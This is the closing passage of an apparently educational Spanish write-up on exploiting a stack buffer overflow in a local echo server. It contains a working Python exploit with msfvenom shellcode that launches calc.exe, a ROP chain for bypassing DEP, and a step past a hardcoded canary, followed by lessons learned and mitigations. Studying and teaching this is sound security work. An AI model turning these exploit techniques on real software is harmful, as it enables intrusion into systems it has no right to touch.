El código de la *shellcode* para el *payload* ha sido generado utilizando la herramienta de Metasploit `msfvenom`. En concreto, se ha ejecutado el siguiente comando.

```console
$ msfvenom --platform Windows -a x86 -p windows/exec CMD=calc.exe -f python --var-name shellcode
```

En este caso no fue necesario manejar los *bad chars* para que el *payload* se ejecutara correctamente.

```python
import socket
import struct

shellcode = b""
shellcode += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0"
shellcode += b"\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b"
shellcode += b"\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61"
shellcode += b"\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2"
shellcode += b"\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11"
shellcode += b"\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3"
shellcode += b"\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6"
shellcode += b"\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75"
shellcode += b"\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b"
shellcode += b"\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24"
shellcode += b"\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
shellcode += b"\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
shellcode += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb"
shellcode += b"\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
shellcode += b"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
shellcode += b"\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c"
shellcode += b"\x63\x2e\x65\x78\x65\x00"

def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x7800ab8b,  # POP EAX # RETN [MSVRCT2.dll]
      0x7802e0b0,  # ptr to &VirtualAlloc() [IAT SVRCT2.dll]
      0x7801239a,  # MOV EAX,DWORD PTR DS:[EAX] # RETN MSVRCT2.dll]
      0x78009aab,  # PUSH EAX # ADD AL,5F # POP ESI # RETN MSVRCT2.dll]
      #[---INFO:gadgets_to_set_ebp:---]
      0x7802b04b,  # POP EBP # RETN [MSVRCT2.dll]
      0x7800f7c1,  # & push esp # ret  [MSVRCT2.dll]
      #[---INFO:gadgets_to_set_ebx:---]
      0x78010b50,  # POP EBX # RETN [MSVRCT2.dll]
      0x00000001,  # 0x00000001-> ebx
      #[---INFO:gadgets_to_set_edx:---]
      0x78028b44,  # POP EDX # RETN [MSVRCT2.dll]
      #[---INFO:gadgets_to_set_ecx:---]
      0x7800143d,  # POP ECX # RETN [MSVRCT2.dll]
      0x00000040,  # 0x00000040-> ecx
      #[---INFO:gadgets_to_set_edi:---]
      0x7800518e,  # POP EDI # RETN [MSVRCT2.dll]
      0x7800b281,  # RETN (ROP NOP) [MSVRCT2.dll]
      #[---INFO:gadgets_to_set_eax:---]
      0x7800ab8b,  # POP EAX # RETN [MSVRCT2.dll]
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x78009791,  # PUSHAD # ADD AL,80 # RETN [MSVRCT2.dll]
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 16000))

#### PAYLOAD para ROP #####
# payload = "A"*512 + struct.pack("<I", 0x95125613) + "AAAA"  "AAAA" + "BBBB" + rop_chain + "\x90"*8 + “\x40”*4
payload = "A"*512 + struct.pack("<I", 0x95125613) + "AAAA" + "AAAA" + "BBBB" + struct.pack("<I", 0x0018FF34) + "\x90"*8 + shellcode
msg = struct.pack("<I", len(payload)) + payload
s.send(msg)
```
_Código 4. Código final del exploit en Python (Exploit.py)._

## Conclusiones

A lo largo del post se han detallado los pasos seguidos para el análisis de la aplicación y explotación de las vulnerabilidades presentes mediante distintas técnicas. El código corresponde a un servidor eco que espera recibir un mensaje donde la longitud del mismo se encuentre como cabecera. El problema es que la capacidad de la variable para almacenar la longitud del mensaje es mucho mayor que el espacio reservado en el *buffer* para almacenar el mensaje en sí.

Dada esta situación se puede elaborar un *exploit* como el visto en el Código 4 para sobrescribir el *buffer* y la dirección de retorno con el objetivo de redirigir el flujo del programa a una zona de memoria controlada donde se ejecutará el código «malicioso».

Esta explotación se facilita, ya que tanto el ejecutable como la librería asociada no incluyen ninguna protección en su compilación que permita dificultar estos ataques, por ejemplo, impidiendo la ejecución de código en zonas de memoria destinadas a datos o la aleatorización de direcciones de memoria (ASLR). Si bien es cierto que se implementa una *canary cookie* para intentar detectar desbordamientos en el *buffer*, esta está *hardcoded* en el código fuente y, por tanto, es fácil de descubrir y saltarse esta medida.

### Lecciones aprendidas

- **Nunca confíes en la longitud que declara el cliente.** El fallo de raíz no está en `recv`, sino en leer tantos bytes como pida el atacante dentro de un *buffer* de tamaño fijo.
- **Una mitigación mal implementada es una falsa sensación de seguridad.** La *canary cookie* existía, pero al estar *hardcodeada* (`0x95125613`) se convierte en un trámite más del *payload*, no en una barrera.
- **Sin DEP/ASLR, la explotación es casi directa;** cuando simulamos esa protección, ROP nos permite sortearla reutilizando código legítimo de una DLL sin protecciones (`MSVRCT2.dll`).
- **El espacio disponible condiciona el *shellcode*.** El límite de bytes nos obligó a renunciar a la *shellcode* completa en el caso ROP y a demostrar el control de ejecución con algo más modesto (`inc eax`).

### Medidas de seguridad a implementar

Para mitigar o al menos dificultar esta explotación se recomienda:

- El uso de *cookies* aleatorias en cada ejecución que no sean fácilmente descubribles.
- El uso de protecciones en tiempo de compilación que activen parámetros como **SafeSEH**, **ASLR** y **DEP**.
- Y, sobre todo, a nivel de código, **comprobar que la longitud del mensaje se ajuste a la capacidad del *buffer*** donde se almacena, impidiendo así desbordamientos que sobrescriban otras zonas de memoria del programa.
